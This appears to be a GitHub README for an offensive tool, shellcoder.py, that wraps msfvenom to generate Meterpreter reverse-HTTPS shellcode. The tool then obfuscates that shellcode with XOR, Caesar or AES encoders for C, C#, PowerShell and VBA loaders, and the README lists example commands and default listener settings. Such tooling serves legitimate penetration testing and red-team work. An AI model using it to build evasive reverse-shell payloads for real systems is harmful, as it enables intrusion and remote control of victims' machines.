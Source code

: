 # shellcoder.py
A tool I wrote to ease the process of shellcode generation and obfuscation!

## Getting Started
This tool has some dependencies that may need to be installed. It was written and tested on Kali Linux 2021.4 so most of the dependencies are already pre-installed. In the event you are using an older version or non-Kali install, you can get started by running the following commands:
```bash
sudo python3 -m pip install -r requirements.txt
```
This tool is depenedent on msfvenom to generate raw shellcode files. If the Metasploit Framework is not installed on your system, here are the commands you will need to run to install it:
```bash
wget http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
```
```bash
sudo chmod +x ./metasploit-latest-linux-x64-installer.run
```
```bash
sudo ./metasploit-latest-linux-x64-installer.run
```
## Generating shellcode
One of the main reasons I developed this tool was to automate the process of generating shellcode for both Windows and Linux using msfvenom. To generate shellcode you can run shellcoder.py with the -l flag to set the listening host, the -p flag to set the listening port, the -t flag to set the payload type, and most importantly the -g or --generate flag. Alternatively, you can can just run shellcoder.py with the -g or --generate flag and it will use the following default values:

- PAYLOAD=windows/x64/meterpreter/reverse_https
- LHOST=tun0
- LPORT=443
- OUTFILE=/tmp/raw_sc

Some example commands that can be used to generate shellcode with shellcoder.py are as follows:
```bash
python3 shellcoder.py -l tun0 -p 443 -t windows/x64/meterpreter/reverse_https -o raw_sc --generate
```

<p align="center">
<a href="/img/gen1.png"><img src="/img/gen1.png"></a>
 </p>
 
```bash
python3 shellcoder.py --generate
```

<p align="center">
<a href="/img/gen2.png"><img src="/img/gen2.png"></a>
 </p>

 ## Encoding shellcode
 There are a couple options you can choose from to encode shellcode. Here is a list of formats the shellcode can be encoded with:

- clang_aes
- clang_caesar
- clang_xor
- csharp_aes
- csharp_caesar
- csharp_xor
- ps1_aes
- ps1_caesar
- ps1_xor
- vba_aes
- vba_caesar
- vba_xor

To generate shellcode with shellcoder.py, you can supply the -e flag with the encoder type. Optionally you can specify the input and output files with the -i and -o flags, respectively. If you do not specify an input file, shellcoder.py will look for the raw shellcode file located at /tmp/raw_sc. Here are some example commands that can be used to encode your shellcode:
```bash
python3 shellcoder.py -e chsarp_xor -i raw_sc -o enc_sc.txt
```

<p align="center">
<a href="/img/enc1.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor -i raw_sc
 ```
 
 <p align="center">
<a href="/img/enc2.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor
 ```
 
  <p align="center">
<a href="/img/enc3.png"><img src="/img/enc3.png"></a>
 </p>

 These are just a few examples of how raw shellcode files can be encoded. You can see the help page for more options with the following command:
```bash
python3 shellcoder.py -h
```

<p align="center">
<a href="/img/help.png"><img src="/img/help.png"></a>
 </p>
